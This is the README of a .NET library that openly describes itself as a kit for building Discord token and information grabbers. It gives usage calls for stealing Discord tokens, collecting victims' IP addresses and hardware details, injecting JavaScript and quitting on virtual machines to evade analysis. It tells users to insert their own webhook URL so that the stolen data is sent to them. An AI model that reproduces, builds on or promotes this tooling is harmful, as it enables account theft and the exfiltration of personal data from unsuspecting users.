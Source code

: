 # Discord-Token-Grabber-Library
A .NET library developed to create Discord token and other information grabbers with ease.

# Build
#### - Built using Visual Studio 2019 Community
1. Open project
2. Build Solution
3. ???
4. Profit

# Usage
Replace all occurances of "webhook-here" to your own server's webhook URL, this is the webhook which will be displaying the captured tokens.

Build the DLL and reference it in your project(s): ```using Furious;```

#### To grab tokens call
```Furious.Grabber.QuickStart(true);```
#### To obtain IP address
```Furious.Grabber.QuickStart(injectJS, grabIP: true);```
#### To collect hardware information
```Furious.Grabber.QuickStart(injectJS, grabIP, grabHardware: true);```
#### To check for a virtual machine
```Furious.Grabber.QuickStart(injectJS, grabIP, grabHardware, checkForVM: true);``` - if a VM is detected, the application will close instantly.
#### To send data (hardware, ip etc.) to webhook
```Furious.Grabber.SendData(await Grabber.GetHardware());```
# Requests
I do not know JS, I got it to work with luck, for those that do, the JS in the text files may look extremely messy. If you're able to optimise/clean-up the code I would greatly appreciate it.
